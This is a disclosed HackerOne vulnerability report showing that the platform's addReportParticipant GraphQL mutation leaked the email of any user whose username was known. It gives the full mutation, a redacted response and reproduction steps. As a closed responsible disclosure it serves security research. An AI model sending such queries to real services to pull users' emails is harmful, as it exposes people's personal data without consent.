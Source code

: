 # Email address of any user can be queried on Report Invitation GraphQL type when username is known

## Report Details
- **Report ID**: 792927
- **URL**: https://hackerone.com/reports/792927
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-02-11T05:53:53.346Z
- **Disclosed**: 2020-02-20T16:58:04.631Z

## Reporter
- **Username**: msdian7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Email  id  of all hackerone users disclosure

**Description:**
There is an flaw , with that i can get all hackerone users email id 

### Steps To Reproduce

1. Invoke the below graphql call

POST /graphql HTTP/1.1

```{"query":"mutation Revoke_credential_mutation($input_0:AddReportParticipantInput!) {addReportParticipant(input:$input_0) {clientMutationId,...F1}}  fragment F1 on AddReportParticipantPayload {clientMutationId,was_successful,errors{nodes{message}},invitation{email,token}}","variables":{"input_0":{"report_id":"Z2lkOi8vaGFja2Vyb25lL1JlcG9ydC82MjYzNzE=","email":"██████████","username":"jobert"}}}```

you will get below response

```
{"data":{"addReportParticipant":{"clientMutationId":null,"was_successful":true,"errors":{"nodes":[]},"invitation":{"email":"████","token":null}}}}
```

2.  to reproduce from your account, create one test program, and create one report for that program, get that report id 
gid://hackerone/Report/626371 (here 626371 my test program's report id)  convert it into base 64, replace that id with the "report_id" in the above graphql query 
3.   Done

## Impact

PII disclosed

## Attachments
No attachments
